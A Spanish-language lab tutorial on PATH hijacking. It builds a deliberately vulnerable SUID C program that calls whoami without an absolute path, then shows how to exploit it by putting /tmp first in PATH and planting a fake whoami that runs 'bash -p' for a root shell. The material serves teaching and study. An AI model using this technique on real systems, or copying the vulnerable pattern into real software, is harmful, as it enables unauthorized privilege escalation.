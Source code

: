 # 🔒 Path Hijacking: Teoría y Práctica

## 📋 Tabla de Contenidos
- [Teoría](#teoría)
- [Práctica](#práctica)
  - [Instalación](#instalación)
  - [Creación del código vulnerable](#creación-del-código-vulnerable)
  - [Detección de Path Hijacking](#detección-de-path-hijacking)
  - [Explotación del Path Hijacking](#explotación-del-path-hijacking)

---

## 🧠 Teoría

> [!INFO] ¿En qué consiste el Path Hijacking?
> Path Hijacking es una técnica de escalada de privilegios que aprovecha la forma en que los sistemas operativos buscan binarios ejecutables en la variable de entorno PATH. Cuando un programa ejecuta un comando sin especificar la ruta absoluta, el sistema buscará en las rutas definidas en PATH, empezando por la primera. Un atacante puede manipular esta variable para hacer que se ejecute su versión maliciosa del comando en lugar de la legítima.

---

## 🔬 Práctica

### Instalación

Instalamos GCC para compilar nuestro código de ejemplo:

> [!NOTE] Instalación en diferentes distribuciones
> **En Arch Linux:**
> ```bash
> sudo pacman -S gcc
> ```
> 
> **En Parrot/Kali:**
> ```bash
> sudo apt install gcc
> ```

### Creación del código vulnerable

Como root, creamos un archivo `test.c` en el directorio `scripts/path_hijacking/`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    
    // setuid a 0 porque el programa se ejecuta como root
    setuid(0);
    printf("\n[+] Acuktalmente soy el sigueinte usuario:\n\n");
    system("/usr/bin/whoami");
    printf("\n[+] Acuktalmente soy el sigueinte usuario:\n\n");
    system("whoami");
    return 0;
}
```

> [!IMPORTANT]
> Le asignamos permisos SUID para que cualquier usuario pueda ejecutarlo con privilegios de superusuario:
> ```bash
> chmod u+s test
> ```

### Detección de Path Hijacking

> [!TIP] Análisis del binario
> Después de compilar el binario, no podremos usar `cat` para ver su contenido. Sin embargo, podemos usar otras herramientas para analizarlo:

Podemos usar `file` para ver las características y propiedades del binario:
```bash
file test
```

También podemos usar `strings` para buscar cadenas de texto en el binario:
```bash
strings test
```

Para buscar específicamente el uso de "whoami" en el código:
```bash
strings test | grep "whoami"
```

⚠️ **El riesgo se encuentra aquí:** En el código, observamos que la segunda vez que se ejecuta `whoami`, se hace sin especificar la ruta absoluta. Esto es lo que podemos aprovechar.

### Explotación del Path Hijacking

Si estamos como usuario no privilegiado, podemos manipular la variable PATH para que busque primero en nuestro directorio controlado:

```bash
export PATH=/tmp/:$PATH
```

En `/tmp/`, creamos nuestro propio ejecutable malicioso `whoami`:

```bash
touch /tmp/whoami && chmod +x /tmp/whoami
```

Editamos este archivo para que contenga:
```bash
#!/bin/bash
bash -p
```

> [!DANGER] ¡Parte peligrosa!
> Ahora, cuando el programa vulnerable ejecute `whoami` sin ruta absoluta, encontrará primero nuestra versión en `/tmp/` que lanzará una shell con privilegios elevados.

---

## 🔗 Referencias adicionales
- [[file]] - Comando para analizar tipos de archivos
- [[strings]] - Herramienta para extraer cadenas de texto de binarios